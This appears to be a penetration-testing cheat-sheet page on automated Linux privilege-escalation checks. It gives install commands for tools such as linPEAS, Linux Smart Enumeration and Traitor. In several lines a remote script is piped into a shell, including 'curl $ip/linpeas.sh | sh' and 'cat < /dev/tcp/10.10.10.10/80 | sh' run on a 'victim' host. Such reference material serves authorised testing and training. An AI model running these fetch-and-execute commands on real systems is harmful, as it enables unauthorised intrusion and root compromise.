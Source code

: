 # Automated Checks

[Linux PrivEsc Content](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege\_escalation\_-\_linux.html)

[Pentest Monkey - Unix PrivEsc Check](http://pentestmonkey.net/tools/audit/unix-privesc-check)

### Linux Exploit Suggester

{% embed url="https://github.com/mzet-/linux-exploit-suggester" %}

#### **Installation**

```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
```

### Linux Smart Enumeration&#x20;

{% embed url="https://github.com/diego-treitos/linux-smart-enumeration" %}

#### Installation

```bash
wget "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -O lse.sh;chmod 700 lse.sh

curl "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -Lo lse.sh;chmod 700 lse.sh
```

### Linpeas&#x20;

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS" %}

#### Installation

```bash
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```

#### **Commands**

```bash
# Local network
# On the Host
sudo python -m SimpleHTTPServer 80 

# On the Victim
curl $ip/linpeas.sh | sh 
```

**Without curl**

```bash
# On the Host
sudo nc -q 5 -lvnp 80 < linpeas.sh 

# On the Victim
cat < /dev/tcp/10.10.10.10/80 | sh 
```

### Linux Priv Checker

{% embed url="https://github.com/sleventyeleven/linuxprivchecker" %}

#### Installation&#x20;

```bash
wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py

# python 2.6/2.7
python linuxprivchecker.py -w -o linuxprivchecker.log

# python 3.x
pip install linuxprivchecker

linuxprivchecker -w -o linuxprivchecker.log
# or 
python3 -m linuxprivchecker -w -o linuxprivchecker.log
```

### Traitor

{% embed url="https://github.com/liamg/traitor" %}
⬆️ ☠️ 🔥 Automatic Linux privesc via exploitation of low-hanging fruit e.g. gtfobins, pwnkit, dirty pipe, +w docker.sock
{% endembed %}

### Pspy

{% hint style="info" %}
pspy is a command line tool designed to **snoop** **on processes** without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

The tool gathers the info from procfs scans. Inotify watchers placed on selected parts of the file system trigger these scans to catch short-lived processes.
{% endhint %}

{% embed url="https://github.com/DominicBreuker/pspy" %}
